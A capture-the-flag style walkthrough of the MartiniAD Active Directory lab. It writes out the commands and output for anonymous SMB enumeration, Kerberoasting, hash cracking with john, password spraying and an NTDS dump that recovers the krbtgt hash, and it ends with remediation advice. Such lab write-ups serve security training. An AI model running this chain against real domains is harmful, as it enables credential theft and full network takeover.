In this walkthrough, we will be compromising MartiniAD, an easy-difficulty Active Directory lab from Hack Smarter Labs. The engagement begins with no credentials and only VPN access to the internal network. Anonymous SMB authentication maps to the Guest account on the domain controller, exposing a non-standard `notes` share that holds plaintext credentials for `mprice`. From there, Kerberoasting retrieves a crackable hash for the `ATHENA_SVC` service account, and a password spray across the enumerated domain users shows the `athena.t0` admin account reusing that same password. The reuse grants administrative access on the domain controller, allowing an NTDS dump that recovers the `krbtgt` hash for full domain compromise.


Created by: [Ross](https://www.hacksmarter.org/courses/8da0b008-7692-4c3f-a861-b7a02a536e7b)

Let's get started.

## Objective

An adult beverage company "Martini Bars" recently had a corporate breach and the compliance and risk team dictates they perform a penetration test at one of their branch offices. The Hack Smarter team has been authorized to perform an internal black box pentest.

The client has provided you with VPN access to their internal network, but no credentials.

## Scope

**Target:** `10.1.62.227`

## RustScan

We use [RustScan](https://github.com/bee-san/RustScan) for initial port discovery. RustScan finds the open ports quickly and hands them off to Nmap for service detection and script scanning. The `-a` flag sets the target and everything after `--` is passed straight through to Nmap, so `-sC` runs the default scripts and `-sV` probes for service versions.

```
rustscan -a 10.1.62.227 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-07-23 21:20:05Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: DRY.MARTINI.BARS, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 126
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: DRY.MARTINI.BARS, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126
| ssl-cert: Subject: commonName=DC01.DRY.MARTINI.BARS
| Issuer: commonName=DC01.DRY.MARTINI.BARS
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-07-22T21:00:54
| Not valid after:  2027-01-21T21:00:54
| MD5:     e901 1177 696b 0daa 0f52 63e8 2f1b 4038
| SHA-1:   ab4b b220 026b a310 e846 bd43 66d0 3d4e 7be8 8db9
| SHA-256: ab7a c2be 0001 de80 25b6 2ac0 9b27 9df5 3691 1f4a faed 00b3 150a 105e f870 0ebd
| rdp-ntlm-info: 
|   Target_Name: DRY
|   NetBIOS_Domain_Name: DRY
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: DRY.MARTINI.BARS
|   DNS_Computer_Name: DC01.DRY.MARTINI.BARS
|   DNS_Tree_Name: DRY.MARTINI.BARS
|   Product_Version: 10.0.26100
|_  System_Time: 2026-07-23T21:20:54+00:00
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49695/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49706/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
51021/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
```

Everything we would expect from a domain controller. DNS on 53, Kerberos on 88, LDAP on 389/636, SMB on 445, RDP on 3389, and WinRM on 5985. The LDAP banner gives us the domain as `DRY.MARTINI.BARS`, and the RDP certificate and NTLM info confirm the hostname as `DC01.DRY.MARTINI.BARS`. Add both to `/etc/hosts` before continuing.

## SMB Enumeration

With no credentials in hand, SMB is the first place to look. We check whether anonymous authentication is accepted and enumerate shares with NetExec.

```
nxc smb 10.1.62.227 -u 'anonymous' -p '' --shares
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\anonymous: (Guest)
SMB         10.1.62.227     445    DC01             [*] Enumerated shares
SMB         10.1.62.227     445    DC01             Share           Permissions     Remark
SMB         10.1.62.227     445    DC01             -----           -----------     ------
SMB         10.1.62.227     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.62.227     445    DC01             C$                              Default share
SMB         10.1.62.227     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.62.227     445    DC01             NETLOGON                        Logon server share 
SMB         10.1.62.227     445    DC01             notes           READ,WRITE      
SMB         10.1.62.227     445    DC01             SYSVOL                          Logon server share 
```



*Anonymous authentication mapping to Guest with READ and WRITE on the notes share*

The anonymous logon is accepted and mapped to the `Guest` account. That gets us READ and WRITE on a non-standard `notes` share plus READ on `IPC$`, which typically lets us enumerate domain users once we have a real account to authenticate with. The `notes` share is the obvious first stop.

## Smbclient

We connect to the `notes` share with the same anonymous credentials.

```
smbclient //10.1.62.227/notes -U anonymous%
```

```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jul 23 17:36:19 2026
  ..                                DHS        0  Sat Jan 17 11:38:33 2026
  notes.txt                           A      129  Sat Jan 17 11:38:47 2026

                7731967 blocks of size 4096. 1544700 blocks available
smb: \> get notes.txt
getting file \notes.txt of size 129 as notes.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```



*Smbclient connected to the notes share, listing notes.txt and pulling it down*

A single 129-byte file. We exit the session and read it locally.

```
cat notes.txt
```

```
- Order more gin for lakeside
- Look for an engagement ring
- Check that notes works from Linux Mint
creds
mprice:*martini*
```



*Work notes left on an open share containing plaintext credentials for mprice*

A personal to-do list, and the last two lines hand us a credential. The third item is a nice touch of realism, since testing that a share works from a non-Windows client is exactly the kind of thing that leads to permissions getting loosened and never restored. We have `mprice:*martini*`.

## Access as mprice

```
nxc smb 10.1.62.227 -u 'mprice' -p '*martini*' --shares
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\mprice:*martini* 
SMB         10.1.62.227     445    DC01             [*] Enumerated shares
SMB         10.1.62.227     445    DC01             Share           Permissions     Remark
SMB         10.1.62.227     445    DC01             -----           -----------     ------
SMB         10.1.62.227     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.62.227     445    DC01             C$                              Default share
SMB         10.1.62.227     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.62.227     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.62.227     445    DC01             notes           READ,WRITE      
SMB         10.1.62.227     445    DC01             SYSVOL          READ            Logon server share 
```



*Validating mprice credentials with NetExec*

Credentials confirmed. `mprice` adds READ on `NETLOGON` and `SYSVOL`, both standard logon shares, and no share appears that anonymous access had not already shown us. Let's collect BloodHound data and see what the domain looks like.

## BloodHound Enumeration

```
nxc ldap 10.1.62.227 -u 'mprice' -p '*martini*' --bloodhound --collection All --dns-server 10.1.62.227
```

```
LDAP        10.1.62.227     389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:Enforced) (channel binding:No TLS cert) 
LDAP        10.1.62.227     389    DC01             [+] DRY.MARTINI.BARS\mprice:*martini* 
LDAP        10.1.62.227     389    DC01             Resolved collection methods: psremote, objectprops, group, container, localadmin, session, dcom, trusts, acl, rdp
LDAP        10.1.62.227     389    DC01             [-] BloodHound collection failed: LDAPSocketOpenError - socket ssl wrapping error: [Errno 104] Connection reset by peer
```



*NetExec resolving the collection methods and then failing on the LDAPS handshake*

Authentication succeeds and the collector resolves every collection method, then dies wrapping the socket in TLS. NetExec's own banner points at the cause: `channel binding:No TLS cert` means it could not retrieve a TLS certificate from the domain controller, and 636 and 3269 both came back as `tcpwrapped` in our scan. LDAPS is listening but never completes a usable handshake, so the secure channel the collector wants is not there. Rather than fight the collector we work with what a single valid credential already buys us and go after Kerberos directly.

## Kerberoasting

Kerberoasting targets accounts that have a Service Principal Name set. Any authenticated domain user can request a Kerberos service ticket for an SPN, and part of that ticket is encrypted with the service account's password hash. We request the ticket, pull the encrypted portion out, and crack it offline without ever authenticating as the target. One valid credential is the only requirement and we have that now. The NetExec wiki covers the attack in more detail [here](https://www.netexec.wiki/ldap-protocol/kerberoasting).

```
nxc ldap 10.1.62.227 -u 'mprice' -p '*martini*' --kerberoasting output.txt --dns-server 10.1.62.227
```

```
LDAP        10.1.62.227     389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:Enforced) (channel binding:No TLS cert) 
LDAP        10.1.62.227     389    DC01             [+] DRY.MARTINI.BARS\mprice:*martini* 
LDAP        10.1.62.227     389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.1.62.227     389    DC01             [*] Total of records returned 1
LDAP        10.1.62.227     389    DC01             [*] sAMAccountName: ATHENA_SVC, memberOf: ['CN=Remote Management Users,CN=Builtin,DC=DRY,DC=MARTINI,DC=BARS', 'CN=Remote Desktop Users,CN=Builtin,DC=DRY,DC=MARTINI,DC=BARS'], pwdLastSet: 2026-01-20 13:20:32.856622, lastLogon: <never>
LDAP        10.1.62.227     389    DC01             $krb5tgs$23$*ATHENA_SVC$DRY.MARTINI.BARS$DRY.MARTINI.BARS\ATHENA_SVC*$06e32b1d689c02e240187b7b4f635b37$7ab923880d66bf7ab7e136dd98f13b73d10ba3fc0a0fd115b679033a84b8eb7957cc3d0d590d36aaf2e78dcf37dee3bff4472dd33377264428d7326c30e1f3dd7cacf42b97205641b465ce8eea32dc4e6a81537341390399597ba21828c357ac18c2b78702035d94fae09ea667569a3bb90d95a1fbdeab2b4bd34e5b846095a592d1b4fa2b17661d428c9664ab304b42ed0f0a0a99cfdcba6b07cbc2ad6cb14042c917bbd63aa998f765a33c19d80715fd68d6054e510d6a94648a79b327ef7d483721e80bad52cd034146e9dee50c9f415637620b6fde01100b1ed83e7dee1b6f176b19eaf44e5c5c1fd6a58ec950fd94483123142e765aff6620fd176cb83fcb706b2eda8849b71cf376a751c4a4dcaa5b93af8f4698930de83d91f59dc9a9797c7ca078409ff0c04d291e82dddf8e1a971a859f85579c2a42ad8012465185939ad9107d2ae9b32aba6fa8e4ca43fe7985e041708399efbdf485fa3f02127f636caaa242b01b349b06d0d50d33e88d33bfe09468bedd2963f3c37c4beb7b6a4ca7d3f17a9678188c28e1343419ecc81c1fa001f9d085ef6a28973ef904a19515ff8fcbf27cbc4ac2e8717b5caedf3cd4a5543ece5519ec0473181389e45457d7fde74238511b9f1dc3c486873ee980d5ac9cefa117b69d17d8bd9644584a51d61f14c49fc3d12a65383d431c15a2c779f7b848996529c56c57e77f120c1fd57861080d4e06aa78454f2157511833bcbbfce1d3c8dec9309c78e57b73a4598f14b599052f35762c698aab155d65dbe2b5d01c12cdd8803d502f794a69074242a5de8c24f9572a66e0cfefdc674bd46daf6bc30ce1d23ead91d03ca3d8e6852bab6b91e275779e7c8383d27742d0c540cd7c7841c924c04eb501d768c8defd159cf26448559834f216989b4acd8bebbfc2b92e3e09fcfe5d11cd47dca74de11d5d2ab9f99dc923c8acfc43e548f3c64e4ba165b6b78d791ae189233d5d20937f84d9215312f0dfc734ac5f0bb66086ced578979f73e0aaa9958f9b5d5370001cf30fe62c152a234bc1f4606622a7a04a6bf9131150fdb393588b3d1314d7d76a077c643e5f90b9fe9bd9439e6e2f6b1a3b2c598ecac960fa7dd66198a8304a518ba3afd193e86c891e96a51f08381f03c258089c6afbc565811101201ebe02e74c68f0bad93206463569783b60c382def2db66b6c2e5ef7d9d0ee77cb6a41cf415be26917ee4179c7d75bb199eb85d4dd8a65e8fd5102b3051afaf123535cc48a9d3a07c3dc8cc6fc43e82d4d8a2c50970e63a29c0ad6834a91bb2a296573eecc1967cfd58892010b293a0802477ef17d08f839add854be104431afe0eeb12a2ab706a8879033f5fdda2219abb29d569218d7830900f301ff4b57bef4d6d29ffd9373c217c3d34e2bb20fcaf187a6a4ca6be76674e28fad048cd78b8b96f17037c409aee984eb8f394c4780485b35f8c1fec11ed44d306148e4005f2a452276e3794c9c9b219d470daa6f01c7fa459
```



*Kerberoasting: ATHENA_SVC TGS hash captured via NetExec*

One roastable account comes back. `ATHENA_SVC` has an SPN set and sits in both `Remote Management Users` and `Remote Desktop Users`, so whoever provisioned it expected the account to log in remotely over WinRM and RDP rather than just run a service. NetExec writes the hash to `output.txt` and we crack it with john.

```
john output.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1dirtymartini    (?)     
1g 0:00:00:03 DONE (2026-07-23 17:42) 0.3134g/s 4082Kp/s 4082Kc/s 4082KC/s 1djwsaa..1damnshit
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```



*john recovering the ATHENA_SVC password from the TGS-REP hash*

Cracked in seconds. We have `ATHENA_SVC:1dirtymartini`.

## Access as ATHENA_SVC

```
nxc smb 10.1.62.227 -u 'ATHENA_SVC' -p '1dirtymartini' --shares
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini 
SMB         10.1.62.227     445    DC01             [*] Enumerated shares
SMB         10.1.62.227     445    DC01             Share           Permissions     Remark
SMB         10.1.62.227     445    DC01             -----           -----------     ------
SMB         10.1.62.227     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.62.227     445    DC01             C$                              Default share
SMB         10.1.62.227     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.62.227     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.62.227     445    DC01             notes           READ,WRITE      
SMB         10.1.62.227     445    DC01             SYSVOL          READ            Logon server share 
```



*Validating ATHENA_SVC credentials with NetExec*

Credentials confirmed, but the share list is the same as what `mprice` had and BloodHound collection still fails. What we do have is READ on `IPC$` and a service account password, which is enough to start looking at the rest of the domain.

## Password Spraying

We pull the domain user list with NetExec so we have a set of targets.

```
nxc smb 10.1.62.227 -u 'ATHENA_SVC' -p '1dirtymartini' --users
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini 
SMB         10.1.62.227     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.1.62.227     445    DC01             Administrator                 2026-01-12 16:00:19 0       Built-in account for administering the computer/domain 
SMB         10.1.62.227     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.1.62.227     445    DC01             krbtgt                        2026-01-17 01:19:20 0       Key Distribution Center Service Account 
SMB         10.1.62.227     445    DC01             mprice                        2026-01-17 16:40:55 0        
SMB         10.1.62.227     445    DC01             athena.t0                     2026-01-20 18:20:44 0        
SMB         10.1.62.227     445    DC01             ATHENA_SVC                    2026-01-20 18:20:32 0        
SMB         10.1.62.227     445    DC01             [*] Enumerated 6 local users: DRY
```



*NetExec pulling the six domain accounts, including both athena.t0 and ATHENA_SVC*

Six accounts, and two of them are built on the same name: `ATHENA_SVC` and `athena.t0`. The `.t0` suffix is common shorthand for a tier 0 account, meaning an admin account scoped to domain controllers and identity infrastructure. When a service account and a tier 0 admin account share a base name, password reuse between them is worth testing before anything else. We save the usernames to a `users.txt` file.

```
Administrator
Guest
krbtgt
mprice
athena.t0
ATHENA_SVC
```

We have two passwords to work with, `1dirtymartini` and `*martini*`. We start with `1dirtymartini`, the one we just pulled off `ATHENA_SVC`.

```
nxc smb 10.1.62.227 -u users.txt -p '1dirtymartini' --continue-on-success --dns-server 10.1.62.227
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.1.62.227     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.1.62.227     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.1.62.227     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\athena.t0:1dirtymartini (Pwn3d!)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\ATHENA_SVC:1dirtymartini 
```



*Password spray: athena.t0 reuses the ATHENA_SVC password and comes back Pwn3d!*

The first four attempts drop on NETBIOS connection timeouts rather than returning a logon result, which means `Administrator`, `Guest`, `krbtgt`, and `mprice` were never actually tested against this password. The two that do complete both authenticate. `ATHENA_SVC` we already had. `athena.t0` is new, and NetExec tags it `(Pwn3d!)`. That flag means the account has administrative access on the target, and the target here is the domain controller. The password reuse we suspected is real, and a service account crack just turned into control of the DC.

## NTDS Dump

The goal for this lab is the `krbtgt` NT hash. NTDS.dit is the Active Directory database that lives on the domain controller and it stores the password hashes for every account in the domain, so administrative access to the DC is all we need to read it. NetExec handles the extraction remotely and we scope the output to `krbtgt` rather than printing every account in the domain. The NetExec wiki documents the process [here](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit).

```
nxc smb 10.1.62.227 -u 'athena.t0' -p '1dirtymartini' --ntds --user krbtgt
```

```
SMB         10.1.62.227     445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
SMB         10.1.62.227     445    DC01             [+] DRY.MARTINI.BARS\athena.t0:1dirtymartini (Pwn3d!)
SMB         10.1.62.227     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.1.62.227     445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:22ebc290e67668629c8d0812662a9c51:::
SMB         10.1.62.227     445    DC01             [+] Dumped 1 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_10.1.62.227_2026-07-23_174947.ntds of which 1 were added to the database
SMB         10.1.62.227     445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.1.62.227     445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_10.1.62.227_2026-07-23_174947.ntds | cut -d ':' -f1
```



*NTDS dump: krbtgt NT hash recovered via NetExec*

We recover the `krbtgt` NT hash `22ebc290e67668629c8d0812662a9c51`, submit it as the flag, and the domain is compromised.

## Final Thoughts

MartiniAD is a clean and straightforward Active Directory lab that reinforces the fundamentals. The chain is short but it covers essential AD methodology: anonymous enumeration, credential discovery, Kerberoasting, password spraying, and NTDS extraction. Every step flows naturally into the next. The one wrinkle was BloodHound collection dying on the LDAPS handshake, so I worked the whole chain without a graph to lean on. That turned out to be a useful reminder that the collector is a convenience and not a requirement, and that a username list plus one valid credential still goes a long way.

The biggest takeaway is password reuse. The `ATHENA_SVC` service account and the `athena.t0` admin account shared the same password, which turned a standard Kerberoast into full domain compromise. In a real environment this is exactly the kind of finding that lands a critical on a report. Service accounts should have long, random passwords managed through gMSA or a PAM solution so a roasted ticket produces nothing crackable, and tier 0 admin accounts should never share a credential with anything else in the domain. The plaintext credential sitting in a file on an anonymously accessible share is the other half of the story, and that one is not specific to domain controllers: guest and anonymous SMB access should be off across the estate, and any share reachable without valid credentials needs reviewing for this kind of leftover. Finding it on a DC only raises the stakes, since a domain controller should not be handing files to a guest session at all.

— 0xB1rd
